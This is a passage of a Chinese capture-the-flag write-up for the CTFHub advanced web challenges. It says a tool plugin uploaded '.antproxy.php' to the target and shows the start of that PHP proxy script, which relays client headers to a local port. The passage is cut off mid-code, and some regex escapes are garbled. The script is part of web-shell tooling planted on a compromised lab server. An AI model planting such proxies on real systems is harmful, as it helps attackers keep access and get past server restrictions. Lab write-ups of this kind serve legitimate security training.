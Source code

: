 ![image-20210809183338103](CTFHUB%E8%BF%9B%E9%98%B6.assets/image-20210809183338103.png)

运行插件之后，上传了一个`.antproxy.php`的文件。

```php
<?php
function get_client_header(){
    $headers=array();
    foreach($_SERVER as $k=>$v){
        if(strpos($k,'HTTP_')===0){
            $k=strtolower(preg_replace('/^HTTP/', '', $k));
            $k=preg_replace_callback('/_\w/','header_callback',$k);
            $k=preg_replace('/^_/','',$k);
            $k=str_replace('_','-',$k);
            if($k=='Host') continue;
            $headers[]="$k:$v";
        }
    }
    return $headers;
}
function header_callback($str){
    return strtoupper($str[0]);
}
function parseHeader($sResponse){
    list($headerstr,$sResponse)=explode("

",$sResponse, 2);
    $ret=array($headerstr,$sResponse);
    if(preg_match('/^HTTP/1.1 d{3}/', $sResponse)){
        $ret=parseHeader($sResponse);
    }
    return $ret;
}

set_time_limit(120);
$headers=get_client_header();
$host = "127.0.0.1";
$port = 62140;
$errno = '';
```